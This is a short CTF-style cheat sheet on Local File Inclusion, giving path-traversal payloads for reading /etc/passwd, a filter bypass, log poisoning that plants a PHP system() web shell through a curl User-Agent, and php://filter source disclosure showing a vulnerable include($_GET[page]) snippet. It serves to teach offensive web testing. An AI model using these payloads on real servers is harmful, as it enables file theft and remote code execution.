



title: (L)ocal (F)ile (I)nclusion

# LFI

LFI or Local File Inclusion exploits errors in web application design where user input can manipulate the request to read files from the local file system that the user running web server can access.

This can done by finding request parameters like `?path=mypage.php` or `?page=mypage.php` and replacing `mypage.php` with something else such as `../../../../../../../../etc/passwd` 



Sometimes `../..` is filter, but we can use `..//..` to bypass a basic filter.

## LFI 2 RCE
A frequent use of LFI is to gain (R)emote (C)ode (E)xecution on the remote host. The most frequently used one within *CTF's* is using the `apache access log`. 

This can be done by modifying the `User Agent String` to `<? system($_GET[cmd]) ?>` to get this into the log file, I normally use `curl`

```
curl -A '<?php system($_GET[cmd]) ?>' http://{SERVER}
```

Once this is in the file we can the use the `?cmd=` parameter to run commands



## PHP Filter

We can use `php://filter/convert.base64-encode/resource=` to in our LFI to get the raw PHP script to enable us to look at the source code to find more vulnerabilities. We use the `convert.base64-encode` to encode the source code otherwise the webserver will try to interpret it.



We can then run the `base64` encoded string through either [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)) or use the command line.

```
╰─⠠⠵ echo -n "PD9waHAgICAKICAgICAgIGluY2x1ZGUoJF9HRVRbcGFnZV0pOwo/Pgo=" | base64 -d
<?php   
       include($_GET[page]);
?>
```